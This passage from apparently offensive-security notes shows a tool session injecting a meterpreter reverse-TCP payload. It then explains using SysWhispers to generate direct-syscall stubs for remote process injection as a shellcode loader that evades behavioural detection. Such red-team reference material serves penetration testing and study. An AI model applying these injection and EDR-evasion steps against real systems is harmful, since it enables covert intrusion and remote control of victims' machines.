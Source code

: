 ```
Use a listed payload or custom? (L/C/H): L
Select payload by index: 1

# Example for a Meterpreter payload.
***************************
* meterpreter_reverse_tcp *
***************************
SET LHOST: <HOSTNAME | IP>
SET LPORT: <HOSTPORT>
Payload: meterpreter_reverse_tcp

[...]

Injection: Verified!
Press [Enter] to continue...
```

### Shellcode loader for behavioural analysis evasion

###### Direct syscalls with SysWhispers

[`SysWhispers`](https://github.com/jthuraisamy/SysWhispers) is tool that can be
used to generate an `header` and `ASM` file to make directly `syscalls` in
supporting programming languages. `SysWhispers` supports `Windows XP` to
`Windows 10 21H1 (build 19043)` (as of the present note redaction date) using
`syscalls` numbers and prototypes
[referenced in the project repository](https://github.com/jthuraisamy/SysWhispers/blob/master/data).

The `syscall` version to use is determined at runtime directly in the assembly
implemented the `syscall` by retrieving the `OSMajorVersion` and
`OSMinorVersion` fields of the `Process Environment Block (PEB)` (through the
`Thread Information Block (TIB)`).

```bash
# Export the NtAllocateVirtualMemory, NtWriteVirtualMemory, NtProtectVirtualMemory, and NtCreateThreadEx syscalls for all supported Windows versions.
syswhispers.py -f NtAllocateVirtualMemory,NtWriteVirtualMemory,NtProtectVirtualMemory,NtCreateThreadEx -o syscall_remote_inject

# Export all syscalls with compatibility for all supported Windows versions.
syswhispers.py --preset all -o syscalls_all
```

To add the produced to a `Visual Studio (2019)` project:

  - In the `Solution Explorer` -> Header File -> Add -> New Item... -> Header
	  File (.h) -> Add -> Copy the content the header file produced
	  by `SysWhispers`.

  - In the `Solution Explorer` -> Source File -> Add -> New Item... -> Utility
	  -> Text File (.txt) -> Rename the file extension in .asm -> Copy the
	  content the `ASM` file produced by `SysWhispers`.
